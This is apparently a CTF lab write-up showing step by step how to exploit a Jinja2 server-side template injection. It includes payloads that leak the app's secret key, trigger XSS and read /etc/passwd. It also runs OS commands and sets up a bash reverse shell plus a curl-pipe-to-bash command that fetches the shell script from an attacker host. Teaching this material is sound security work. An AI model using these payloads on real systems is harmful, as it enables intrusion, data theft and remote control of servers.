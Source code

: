 ```yaml
---
date: 2025-02-12
categories: [CTF, ImmersiveLabs]
title: "IML - Halloween 2020: Ep.5 – JinjaBread Man (SSTI)"
tags: ['privilege escalation', 'python', 'rce', 'xss', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Halloween 2020 Ep.5 – JinjaBread - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Halloween 2020: Ep.5 – JinjaBread Man (SSTI)

This lab is exploiting a Server Side Template Injection (SSTI) vulnerability in Jinja

- Port 80 is open and we have a /admin directory:

![image1](../resources/466353f0bd5a4357ae428959e10f695c.png)

- The actual page seems static apart from the search box:

![image2](../resources/b2bd35e1ca654339aebb2a1b9eca994e.png)

![image3](../resources/e07ac994b43c4f12ae8c87a4796ad570.png)

- Since this is a SSTI box - we can assume the search box is vulnerable

- Great blog for SSTI on Jinja2:  
[https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)

- We enter

{% raw %}
    {{4*4}}[[5*5]] 
{% endraw %}

and it gets executed (only what's in the `{{ }}` field):

![image4](../resources/3d753f2b10484a048c7a37457164f611.png)

- By injecting 

{% raw %}
```text
{{config.items()}}
```
{% endraw %}

we can get the secret_key

![image5](../resources/bfcc79eacdef409ba6854d6458adfed1.png)

- We can also get XSS by using the safe command:

![image6](../resources/d34a7e1f00624d038d2c249eb62d42c1.png)

{% raw %}
```text
{{'<script>alert(1);</script>'|safe}}
```
{% endraw %}

![image7](../resources/b094f0aca0544fdd934b04bee5cf6f41.png)

**<u>The actual SSTI:</u>**

- First we need to find the index of **_io._IOBase** (the index changes by environment):

{% raw %}
```text
{{'abc'.__class__.__base__.__subclasses__()}}
```
{% endraw %}

![image8](../resources/2fac61fc3fc542c5b30d5de410ece449.png)

- Now we can call it to test - by appending the index **[92]**:

{% raw %}
```text
{{'abc'.__class__.__base__.__subclasses__()[92]}}
```
{% endraw %}

![image9](../resources/c4c0bbd1f35e4621bbd464b77841c108.png)

- We then call the **_io._RawIOBase** class by adding .__subclasses__()[0]:

{% raw %}
```text
{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0]}}
```
{% endraw %}

![image10](../resources/838a41a738a047d9b5911da4d1c67001.png)

- We then call the **_io.FileIO** class by adding another .__subclasses__()[0]:

{% raw %}
```text
{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]}}
```
{% endraw %}

![image11](../resources/d7680c65ee17404882ba6a257d01c45f.png)

- Finally, we can use this class to construct a file object and read our file:

{% raw %}
```text
{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]('/etc/passwd').read()}}
```
{% endraw %}

![image12](../resources/4ed233e49a8d41ebaad6ef45702a3393.png)

**<u>SSTI RCE:</u>**

- The above link shows the RCE but this is a good article as well:  
<https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/>

This RCE happens because **Flask/Jinja2 templates** have the **request object available to them**

- By using the following payload, we are basically doing **import os and os.popen('id')**:

{% raw %}
```text
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
{% endraw %}

![image13](../resources/5d766dd35b294d16a27f9afb8ceeb5e8.png)

- Create a bash script (rev.sh):

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.102.4.249/4444 0>&1"
```

- Set up a simple python server in the same directory

- Set up a nc listener

- Run the following in the search box:

{% raw %}
```text
{{request.application.__globals__.__builtins__.__import__('os').popen('curl 10.102.4.249:8000/rev.sh | bash').read()}}
```
{% endraw %}

- And we have a shell back:

![image14](../resources/17b9c43fb44944b5bf31cc3d7792b56a.png)

![image15](../resources/e3b3b45085c9487f97b30aa2ead57dfe.png)
